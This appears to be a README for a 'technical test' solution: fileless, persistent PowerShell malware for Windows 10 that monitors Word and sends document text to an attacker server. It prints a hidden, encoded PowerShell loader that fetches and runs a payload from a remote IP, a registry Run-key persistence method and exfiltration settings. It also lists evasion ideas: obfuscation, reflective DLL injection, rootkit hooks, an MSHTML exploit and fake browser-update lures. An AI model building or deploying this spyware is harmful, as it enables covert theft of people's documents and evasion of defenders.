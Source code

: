 # Technical Test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.

## Solution

### Demo

![Persistence](./img/demo.gif)

### Persistence

The persistence in the execution of this software is implemented by adding an entry in the registry path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` which is executed each time the user log in.

This payload makes a GET request to the server to load the software into memory and executes it.

```
powershell.exe -NoProfile -Noninteractive -ExecutionPolicy Bypass -WindowStyle Hidden -enc aQBlAHgAIAAoAGkAdwByACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADoAOAAwADgAMAAvAG0AYQBpAG4ALgBwAHMAMQAnACkA
```

![Persistence](./img/persistence.png)

### Fileless

The code developed is 100% fileless as it does not need to write nothing on disk. It is loaded into memory during the login process for a user and all the operations are performed into memory.

#### Dropper

A very basic example of a VisualBasic macro has been added just to simulate a possible first step into the attack vector. This macro executes a powershell instance loading into memory the payload from the remote server and executing it.

### Little privileges as possible

The code does not need any special privilege, all used functionalities can be executed only with user privileges.

### Searches for Word processes and extracts all text written

This is the core of the software and it is continuing monitoring if the process WinWord is running or not through functions `Wait-ProccessStarts` and `Wait-ProccessStops`. If it is not running the software just wait for 5 seconds and make another check. If the process is running the software call to function `Get-OpenWORDDocumentsWords` which get all open Word documents, read the words inside them and make the exfiltration executing the function `Invoke-Request`. This loop is repeated each 30 seconds while the process WinWord is running.

Inside the code there are three global variables for an easy configuration of the parameters.

```
$RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$ServerURL = "http://192.168.56.1:8080"
$Process = "Winword"
```

### Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![Get Request](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![Post Request](./img/post-request.png)

![Saved file into server](./img/server-file.png)

![Content of the file](./img/open-file.png)

#### Running the server

To execute the server it is only need to execute the following steps:

```
pip install -r requirements.txt
python3 webserver.py
```

### Possible Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/trustedsec/unicorn>.

If more advanced techniques are required, a better approach could be creating the  software as dll file and inject the code into a running process using the Reflective PE Injection <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>. Furthermore, it could be possible to create a hook into Win32 API functions NtQuerySystemInformation acting as a Rootkit hiding processes from the Task Manager and NtCreateUserProcess to launch the exfiltration method when the process WinWord starts.

For increasing the possibilities of a first execution of the software, modern vulnerabilities like Microsoft MSHTML Remote Code Execution can be used <https://github.com/lockedbyte/CVE-2021-40444>. Also, other drop techniques could be useful like creating a WASM application and try to make the user to visit it and executes the code hiding like a browser update.

